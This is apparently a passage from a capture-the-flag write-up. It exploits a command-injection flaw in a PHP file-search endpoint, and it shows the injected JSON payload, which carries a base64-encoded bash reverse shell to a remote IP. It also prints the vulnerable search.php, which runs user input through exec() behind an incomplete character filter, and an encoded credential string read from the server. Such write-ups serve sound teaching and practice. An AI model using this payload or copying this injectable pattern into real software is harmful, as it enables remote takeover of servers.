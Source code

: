 Request Body - 

```
{"target":"\"\n echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMS4yMDcuMTgzLzQwMDAgMD4mMScgCg= | base64 -d | bash \n \""}
```

<img width="896" height="229" alt="Screenshot From 2025-09-17 13-22-49" src="https://github.com/user-attachments/assets/2ace413f-5e2d-4f13-a4e8-a317e5a1db7e" />



We got the shell as www-data and now we can see the content of the search.php -

```php
<?php
	if($_SERVER["REQUEST_METHOD"] != "POST"){
		echo "Uh oh, something went wrong!";
	} else {
		$target = json_decode(file_get_contents("php://input"));
		if (strpos($target->target, "&") !== false || strpos($target->target, "$") !==false){
			echo json_encode(["Invalid Character"]);
			exit();
		}
		$query = exec("find ../../../files/* -iname \"*$target->target*\" | xargs");
		if (strlen($query) < 1){
			echo json_encode(["No file returned"]);
		} else{
			$queryArr = explode(" ", $query);
			foreach($queryArr as $key => $tmp){
				$queryArr[$key] = str_replace("../../../files/", "", $tmp);
			}
			echo json_encode($queryArr);
		}
	}
?>
```

Explaination fo execution flow :

1. Checks whether the request method is POST or not.
2. fetches the json body from the request and runs josn_decode function on it to get the value of the "target" field.
3. Checks for "&" and "$" in the input if present it will return "Invalid Character".
4. Executes the command "find ../../../files/* -iname \"*$target->target*\" | xargs" to find the file with the user specified name and then pipe it into xargs command that converts the output of one command to use as arguments for another.
5. Split the output of the command into array remove the "../../../files/" and encode it as json and send in response.

From the file we can see the three files are stored in "/var/www/files" directory so we can see the content of all the three files -

- 2 Files - fox.txt and important-data.txt is empty but the creds2.txt contains : LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
